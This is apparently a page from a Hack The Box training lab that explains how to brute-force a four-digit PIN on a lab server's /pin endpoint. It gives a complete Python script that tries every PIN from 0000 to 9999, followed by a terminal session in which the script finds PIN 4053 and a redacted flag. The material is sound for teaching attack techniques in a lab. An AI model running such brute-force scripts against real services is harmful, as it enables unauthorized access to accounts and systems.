 ## Cracking the PIN

**To follow along, start the target system via the question section at the bottom of the page.**

The instance application generates a random 4-digit PIN and exposes an endpoint (`/pin`) that accepts a PIN as a query parameter. If the provided PIN matches the generated one, the application responds with a success message and a flag. Otherwise, it returns an error message.

We will use this simple demonstration Python script to brute-force the `/pin` endpoint on the API. Copy and paste this Python script below as `pin-solver.py` onto your machine. You only need to modify the IP and port variables to match your target system information.


```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
    print(f"Attempted PIN: {formatted_pin}")

    # Send the request to the server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if the server responds with success and the flag is found
    if response.ok and 'flag' in response.json():  # .ok means status code is 200 (success)
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```

The Python script systematically iterates all possible 4-digit PINs (0000 to 9999) and sends GET requests to the Flask endpoint with each PIN. It checks the response status code and content to identify the correct PIN and capture the associated flag.


```shell-session
smoothment@htb[/htb]$ python pin-solver.py

...
Attempted PIN: 4039
Attempted PIN: 4040
Attempted PIN: 4041
Attempted PIN: 4042
Attempted PIN: 4043
Attempted PIN: 4044
Attempted PIN: 4045
Attempted PIN: 4046
Attempted PIN: 4047
Attempted PIN: 4048
Attempted PIN: 4049
Attempted PIN: 4050
Attempted PIN: 4051
Attempted PIN: 4052
Correct PIN found: 4053
Flag: HTB{...}
```
